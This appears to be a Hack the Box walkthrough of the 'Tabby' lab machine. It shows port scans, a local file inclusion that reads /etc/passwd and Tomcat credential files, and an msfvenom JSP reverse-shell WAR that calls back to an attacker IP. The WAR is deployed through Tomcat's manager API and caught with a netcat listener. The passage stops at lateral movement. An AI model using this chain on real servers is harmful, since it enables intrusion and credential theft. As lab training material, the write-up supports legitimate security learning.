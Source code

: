 # Hack the Box - Tabby

```CSS
Machine IP: 10.10.10.194 - Linux

```

---

```CSS
▶ nmap -Pn -sS -O -p- 10.10.10.194 -T4 --min-rate 1000 -oN ports.nmap
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-22 11:08 IST
Nmap scan report for 10.10.10.194
Host is up (0.19s latency).
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
8080/tcp open  http-proxy
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.93%E=4%D=5/22%OT=22%CT=1%CU=42207%PV=Y%DS=2%DC=I%G=Y%TM=646B001
OS:B%P=x86_64-pc-linux-gnu)SEQ(SP=FD%GCD=1%ISR=10B%TI=Z%CI=Z%II=I%TS=A)OPS(
OS:O1=M53CST11NW7%O2=M53CST11NW7%O3=M53CNNT11NW7%O4=M53CST11NW7%O5=M53CST11
OS:NW7%O6=M53CST11)WIN(W1=FE88%W2=FE88%W3=FE88%W4=FE88%W5=FE88%W6=FE88)ECN(
OS:R=Y%DF=Y%T=40%W=FAF0%O=M53CNNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS
OS:%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=
OS:Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=
OS:R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T
OS:=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=
OS:S)

Network Distance: 2 hops

OS detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 79.91 seconds
```

```CSS
▶ nmap -sC -sV -p 22,80,8080 10.10.10.194 -oN services.nmap
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-22 11:10 IST
Nmap scan report for 10.10.10.194
Host is up (0.17s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 453c341435562395d6834e26dec65bd9 (RSA)
|   256 89793a9c88b05cce4b79b102234b44a6 (ECDSA)
|_  256 1ee7b955dd258f7256e88e65d519b08d (ED25519)
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Mega Hosting
|_http-server-header: Apache/2.4.41 (Ubuntu)
8080/tcp open  http    Apache Tomcat
|_http-title: Apache Tomcat
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.13 seconds
```

---

# Port 80
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/bb960e94-7b85-470f-8501-04813c7744df)
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/a1ad3174-c498-4e0b-afc7-11faaf051616)
 
- Add the domain name `megahosting.htb` to the `/etc/hosts` file.
```CSS
▶ sudo -- sh -c "echo '10.10.10.194 megahosting.htb' >> /etc/hosts"
```

![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/028519af-034e-4a45-993d-937fa894b7e1)

---

## Local File Inclusion (LFI)
We notice that we are being redirected to http://megahosting.htb/news.php?file=statement. It's worth noting that `statement` seems to be a filename passed as input to the parameter `file` of the page news.php . Let's check if this is vulnerable to Local File Inclusion (LFI), by trying to load the `/etc/passwd` file.

![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/afb98396-df84-4b56-b9ef-ce367446f0f7)

---

# Port 8080
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/bb40c443-61df-487a-afdb-2559da6a6ee6)

---

### Content Discovery
Brute-force the URL path to look for some common hidden directories and files.
```CSS
▶ gobuster dir --url http://megahosting.htb:8080 --wordlist /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt --threads 25
```
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/230e9c6b-b14c-4504-81aa-5dce91f80bd1)
Scanning reveals the well-known Tomcat `/manager` page. This is a default page that allows users to manage web applications.

![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/2db1b182-901d-42aa-8e29-4770a7036509)
Tomcat's manager page requires authentication. Attempting to log in with common credentials like admin / admin is not successful.

![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/b8d36d51-f02c-4ba2-af1f-730dd251cf30)
However, on clicking cancel we get a 401 Unauthorized message. This page reveals that the credentials are in the file `conf/tomcat-users.xml`. 

Navingating to the location of the `tomcat-users.xml` using the LFI as mentioned, returns a blank page.

Checking if the file `tomcat-users.xml` is located in a different path inside Tomcat's default installation directory.
- Tomcat default installation directory: `/usr/share/tomcat9/`.
- Default location of `tomcat-users.xml`: `etc/tomcat-users.xml`.

The final path should be: `/usr/share/tomcat9/etc/tomcat-users.xml`.
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/c5629bff-e6c1-4aff-9036-8681fa3cdf40)

The file contains the credentials `tomcat /$3cureP4s5w0rd123!`.
As the roles xml attribute shows that this user is a member of admin-gui and manager-script . The manager-gui role that allows access to the /manager page is not assigned.

Brute-force the URL path `/manager/` to look for some common hidden directories and files.
```CSS
▶ gobuster dir --url http://megahosting.htb:8080/manager --wordlist /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt --threads 25
```
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/992d8893-58ec-4b66-888b-8968af93f140)
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/4f0c0678-6876-453b-92d0-76be836774fa)

---

# FootHold
### Tomcat Hostmanager App -- Text Interface

![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/be4402eb-551e-4078-9f5b-cb2b3fcf7c15)
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/92f28d3e-5c14-4f78-b315-a6f3efeead26)
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/1553e220-3e63-4dfb-8c07-66e948dfe48c)

#### Tomcat - List Available Hosts
```CSS
▶ curl -u 'tomcat':'$3cureP4s5w0rd123!' http://megahosting.htb:8080/manager/text/list
```

![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/42031ecc-31dd-4de8-951b-45e6f289a28d)
This is successful. It is also well-known that Tomcat deploys Java web applications. Check if a project can be deployed using the text interface.

---

#### Tomcat - Deploy A New Application Archive (WAR) Remotely

![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/d59e8d16-7194-467c-acf5-414070103283)
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/cd72da1d-5248-4869-af37-051ddbb153c8)
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/032ae345-7ee6-42e3-b0fc-f6987c9c8475)
According to this, it is possible to create a war file and deploy it to the server. A war file is an archived Java application.

### Generate Reverse Shell
```CSS
▶ msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.24 LPORT=31337 -f war > shell.war
```
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/f44669aa-d4ae-48e7-836b-7518d8d00c94)

#### Deploy the Shell
```CSS
▶ curl -u 'tomcat:$3cureP4s5w0rd123!' http://megahosting.htb:8080/manager/text/deploy?path=/hardyboy --upload-file shell.war
```
#### Setup Netcat Listener
```CSS
▶ nc -nlvvp 31337
```
#### Trigger the Shell
```
▶ curl http://megahosting.htb:8080/hardyboy/
```
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/c096b735-8537-416a-b909-c2f654bb309e)

Shell Upgrade:
```CSS
▶ python3 -c 'import pty; pty.spawn("/bin/bash")'
```
---

### Lateral Movement

Enumeration of the directories and files reveals the archive `/var/www/html/16162020_backup.zip` , that is owned by the user `ash`.
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/021ebaaa-fc5f-4cea-bbff-000c5f6d6a39)

---


